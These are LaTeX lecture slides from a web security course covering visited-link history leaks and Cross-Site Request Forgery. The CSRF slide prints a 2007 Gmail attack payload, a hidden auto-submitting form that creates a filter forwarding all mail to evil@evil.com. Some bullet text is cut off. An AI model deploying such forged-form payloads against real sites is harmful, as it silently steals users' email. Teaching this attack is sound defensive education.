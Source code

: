 \begin{frame}[fragile,label=visitedLinksFix]{visited link: fix}
    \begin{itemize}
    \item most browsers have fixed visited link ``leaks'' --- not trivial
    \item getComputedStyle 
        \begin{itemize}
        \item as if unvisited
        \end{itemize}
    \item many types of  for visited links
        \begin{itemize}
        \item e.g. different font size --- could detect from sizes of other things
        \end{itemize}
    \item probably 
        \begin{itemize}
            \item still tricks involving page appearance
        \end{itemize}
    \end{itemize}
\end{frame}

\section{Cross-Site Request Forgery}

\begin{frame}[fragile,label=submitForm]{submitting forms}
    \begin{verbatim}
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf"
    enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="evil@evil.com"/> 
    ...
    <input type="hidden" name="s" value="z"/> 
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script>
document.forms[0].submit();
</script>
\end{verbatim}
    \begin{itemize}
    \item above form: 2007 GMail email filter form
        \begin{itemize}
        \item pre filled out: match all messages; forward to \texttt{evil@evil.com}
        \end{itemize}
    \item form will be submitted with 
    \end{itemize}
\end{frame}

